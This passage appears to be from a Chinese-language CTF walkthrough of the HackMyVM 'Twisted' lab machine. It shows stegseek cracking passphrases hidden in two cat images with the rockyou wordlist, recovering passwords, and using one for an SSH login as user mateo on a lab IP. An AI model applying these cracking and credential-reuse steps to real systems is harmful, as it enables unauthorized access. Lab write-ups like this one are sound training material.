 ```bash title="cat-original.jpg stegseek"
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Twisted]
└──╼ $stegseek cat-original.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "westlife"
[i] Original filename: "markus.txt".
[i] Extracting to "cat-original.jpg.out".
```

```bash title="cat-hidden.jpg stegseek"
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Twisted]
└──╼ $stegseek cat-hidden.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "sexymama"
[i] Original filename: "mateo.txt".
[i] Extracting to "cat-hidden.jpg.out".
```

读取解密出来的信息

```plaintext title="cat-original.jpg.out"
markuslovesbonita
```

```plaintext title="cat-hidden.jpg.out"
thisismypassword
```

## 隐写数据尝试利用

由于只开放了一个 web 服务，和一个 SSH 服务，所以怀疑图像隐写提取出来的数据为 SSH 的凭据，尝试利用

```plaintext
mateo:thisismypassword
```

```bash title="SSH mateo"
┌─[✗]─[randark@randark-Parrot]─[~/tmp/HackMyVM-Twisted]
└──╼ $ssh mateo@192.168.56.104 -p 2222
mateo@192.168.56.104's password:
Linux twisted 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 14 03:21:44 2020 from 192.168.1.58
mateo@twisted:~$ whoami
mateo
```

```plaintext
markus:markuslovesbonita
```
